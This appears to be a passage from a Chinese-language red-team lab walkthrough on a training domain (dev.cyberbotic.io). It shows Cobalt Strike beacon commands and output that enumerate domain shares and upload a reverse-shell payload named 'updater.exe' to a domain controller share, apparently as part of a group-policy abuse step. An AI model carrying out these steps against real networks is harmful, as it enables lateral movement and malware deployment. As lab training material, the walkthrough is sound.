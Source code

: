 ```
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4

```



2. 上传rev payload到域的共享文件夹


查找域共享文件夹
```
beacon> powershell Find-DomainShare -CheckShareAccess
[*] Tasked beacon to run: Find-DomainShare -CheckShareAccess
[+] host called home, sent: 385 bytes
[+] received output:
#< CLIXML

Name         Type Remark        ComputerName             
----         ---- ------        ------------             
ADMIN$ 2147483648 Remote Admin  wkstn-1.dev.cyberbotic.io
ADMIN$ 2147483648 Remote Admin  wkstn-2.dev.cyberbotic.io
C$     2147483648 Default share wkstn-2.dev.cyberbotic.io
home$           0               dc-2.dev.cyberbotic.io   
NET...          0 Logon serv... dc-2.dev.cyberbotic.io   
sof...          0               dc-2.dev.cyberbotic.io   
SYSVOL          0 Logon serv... dc-2.dev.cyberbotic.io   
C$     2147483648 Default share wkstn-1.dev.cyberbotic.io
ADMIN$ 2147483648 Remote Admin  srv-1.dev.cyberbotic.io  
C$     2147483648 Default share srv-1.dev.cyberbotic.io  
ADMIN$ 2147483648 Remote Admin  srv-2.dev.cyberbotic.io  
C$     2147483648 Default share srv-2.dev.cyberbotic.io 
```

上传rev payload到域的共享文件夹,这里选择```\\dc-2\software```
```
beacon> cd \\dc-2\software
[*] cd \\dc-2\software
[+] host called home, sent: 47 bytes
beacon> upload C:\Payloads\updater.exe
[*] Tasked beacon to upload C:\Payloads\updater.exe as updater.exe
[+] host called home, sent: 311855 bytes
beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 43 bytes
[*] Listing: \\dc-2\software\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 304kb    fil     08/15/2022 23:42:26   updater.exe
```

